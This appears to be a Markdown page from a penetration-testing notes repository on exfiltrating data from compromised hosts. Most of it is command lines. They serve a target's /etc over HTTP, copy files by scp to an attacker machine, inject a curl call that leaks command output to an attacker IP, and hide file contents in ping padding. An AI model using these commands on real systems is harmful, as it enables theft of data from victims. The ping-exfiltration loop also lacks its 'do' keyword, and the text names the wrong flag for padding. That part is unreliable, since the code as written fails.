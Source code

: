 # Data Exfiltration
In this module I will cover methods, applications, and syntax used for data exfiltration techniques that I have used during penetration testing or capture the flag.
## Python SimpleHTTPServer
If Python (2.x) is installed on the target system, you can simply start the [SimpleHTTPServer](https://www.pythonforbeginners.com/modules-in-python/how-to-use-simplehttpserver/) 
using the following command in whatever directory that you wish to share temporarily.
```
www-data@target-system:/etc# python -m SimpleHTTPServer 5432
```
And this will instantly share the files on the target system in `/etc` (as you see that is where I started the service) via HTTP on port `5432`
You can then use `wget` recursivley to pull all files found like so, from the attacker machine,
```
root@attacker-system:~/ctf/target/# wget -r http://(TARGET IP ADDRESS):5432 
```
## Python http.server
In Python 3, `SimpleHTTPServer` was merged with `http.server` and you can perform the same as we did in the previous version listing above with the syntax of,
```
www-data@target-system:~# python -m http.server 5432
```
## SCP (SSH)
If SSH is installed on the target system, we can simply use `scp` to exfiltrate data from the target server onto our attacker machine. First, we need to ensure that SSH is running on the attacker machine to accept the connection and file from the target.
Then, we can use the following syntax to transfer the file,
```
user@target-system:~$ scp -P (PORT OF SSH ON ATTACKER) (FILENAME) \
 (USER ON ATTACKER SYSTEM)@(ATACKER IP ADDRESS):/path/on/attacker/machine.extension
```
## HTTP Logs
If command injection is possible on the target server, but it's not possible to save files anywhere to create a shell (super-unprivileged user), we can use `curl` in combination with an interpolated command output to make an HTTP request to our local HTTP server on the attacker system as so,
```
ping 127.0.0.1;curl http://(ATTACKER IP ADDRESS)?username=$(whoami)
```
Then, in our local HTTP logs, we will see the output of `$(whoami)` as the `username` GET request parameter. 
## Using Ping for Data Exfiltration
To use Ping, we will use the `-c` arguemnt and specify 16 bytes to pad the ICMP request. First, we will break the file up into 16 byte chunks using `xxd` like so,
```
user@target-machine:~$ echo "Hello World. We will be exfiltrating this data." > file.out
user@target-machine:~$ xxd -p -c 16 file.out
48656c6c6f20576f726c642e20576520
77696c6c20626520657866696c747261
74696e67207468697320646174612e0a
```
Then, we start Wireshark on the attacker machine and listen for ICMP, using the `icmp` LibPCAP filter. Now, we simply use these 16 byte chunks and pad the ICMP requests to the attacker machine. We can script this like so,
```
user@target-machine:~$ for bytes in $(xxd -p -c 16 file.out); ping -c 1 -p $bytes (ATTACKER IP ADDRESS); done
```
In Wireshark, the hexadecimal bytes will be translated into ASCII. This can be cleaned up by using `tcpdump` on the attacker-machine and parse the ASCII/string output. 

# Data Infiltration
## FTP
You can use FTP for data infiltration on any OS system if you happen to find it installed on a target machine. Check out [/Post Exploitation/ftp.md](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Post%20Exploitation/ftp.md) for more information on how to infiltrate data and binaries to a target system using FTP.

